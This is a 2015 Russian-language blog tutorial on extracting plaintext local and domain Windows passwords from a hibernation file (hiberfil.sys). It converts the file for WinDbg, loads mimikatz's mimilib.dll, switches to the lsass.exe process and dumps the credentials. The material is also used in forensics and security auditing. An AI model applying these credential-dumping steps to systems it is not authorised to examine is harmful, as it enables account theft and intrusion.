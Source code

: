 ```yaml
---
title: "Восстановливаем локальные и доменные пароли из hiberfil.sys"
date: 2015-02-16
layout: default
---
```


Утилита [mimikatz](http://blog.gentilkiwi.com/mimikatz), позволяющая извлекать учётные данные Windows из LSA в открытом виде, существует с 2012 года, однако помимо [хорошо освещённого](http://www.securitylab.ru/news/420431.php) функционала восстановления паролей из памяти работающей ОС у неё есть ещё одна довольно интересная возможность. Далее я приведу пошаговую инструкцию, как при помощи нехитрых действий извлечь учётные данные из файла hiberfil.sys.  
  


###  **Подготовка**

  
Для осуществления задуманного нам понадобятся следующие утилиты:  


  * [Debugging Tools for Windows](https://msdn.microsoft.com/en-us/library/windows/hardware/ff551063\(v=vs.85\).aspx)
  * [Windows Memory toolkit](http://www.moonsols.com/windows-memory-toolkit/) free edition
  * И, собственно, сам [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)



###  **Действия**

  


1\. Получаем файл hiberfil.sys с целевой машины.

  


2\. Конвертируем файл в формат понятный WinDbg

  


**hibr2dmp.exe d:\temp\hiberfil.sys c:\temp\hiberfil.dmp**

**  
**

Процесс может занять довольно продолжительное время

  


[![](/images/1.jpg)](/images/1.jpg)

  


3\. Запускаем WinDbg и открываем полученный файл 

  


**File  -**> **Open Crash Dump**

  


4\. Настраиваем отладочные символы

  


Открываем **File  ****-** >** ****Symbol File Path… **и вписываем следующую строчку

  


**SRV*c:\symbols*http://msdl.microsoft.com/download/symbols**

**  
**

Вместо c:\symbols, естественно, может быть любой каталог, в который будут загружены символы 

  


[![](/images/2.png)](/images/2.png)

  


В командной строке дебаггера пишем

  


0: kd> **.reload /n**

**  
**

Ждём окончания загрузки символов

  


[![](/images/1.png)](/images/1.png)

  


5\. Указываем путь к библиотеке mimilib.dll (находится в каталоге с mimikatz)

  


0: kd> **.load z:\Soft\Security\Passwords\Mimikatz\x64\mimilib.dll**

**  
**

[![](/images/1.png)](/images/1.png)

  


6\. Находим адрес процесса lsass.exe

  


0: kd> **!process 0 0 lsass.exe**

**  
**

[![](/images/1.png)](/images/1.png)

  


В данном случае адрес: fffffa800a7d9060

  


7\. Переключаем контекст процесса

  


0: kd> **.process /r /p fffffa800a7d9060**

**  
**

[![](/images/1.png)](/images/1.png)

  


8\. Запускаем mimikatz и получаем пароли в открытом виде

  


0:kd>** !mimikatz**

**  
**

[![](/images/1.png)](/images/1.png)

**  
**

**  
**

**  
**

###  **Ссылки по теме**

**  
**

Раскрытие учетных данных в Microsoft Windows: **<http://www.securitylab.ru/vulnerability/420418.php>**

LSA Authentication: <https://msdn.microsoft.com/en-us/library/windows/desktop/aa378326(v=vs.85).aspx>  
What is Digest Authentication:**<https://technet.microsoft.com/en-us/library/cc778868(WS.10).aspx>**

  


**  
**

  


  

